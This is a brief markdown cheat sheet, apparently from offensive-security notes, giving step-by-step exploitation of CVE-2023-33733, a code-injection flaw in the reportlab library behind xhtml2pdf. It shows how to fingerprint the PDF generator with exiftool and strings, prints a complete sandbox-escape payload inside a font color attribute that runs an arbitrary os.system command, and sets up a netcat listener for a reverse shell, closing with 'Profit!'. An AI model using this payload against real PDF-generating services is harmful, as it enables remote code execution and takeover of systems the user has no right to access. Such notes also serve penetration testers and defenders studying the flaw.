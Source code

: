 # xhtml2pdf reportlab Python Library Code Injection CVE-2023-33733

## Link: https://github.com/c53elyas/CVE-2023-33733

### Steps to exploit:

#### 1) Check for any functions that converts to pdf. Download the pdf and inspect it with exiftool and/or strings

    exiftool FILE.pdf

    strings FILE.pdf

#### 2) Upon inspection, if we find that the producer is xhtml2pdf and/or with strings we find that the pdf is being generated with reportlab library, we craft an exploit to gain code execution.

    <para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('INJECT_COMMAND_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'"<
                exploit
                </font></para>

#### 3) Setup listener to catch the shell

    nc -lvnp 4444

#### 4) Inject the exploit written above to the appropriate field for it to trigger

#### 5) Profit!

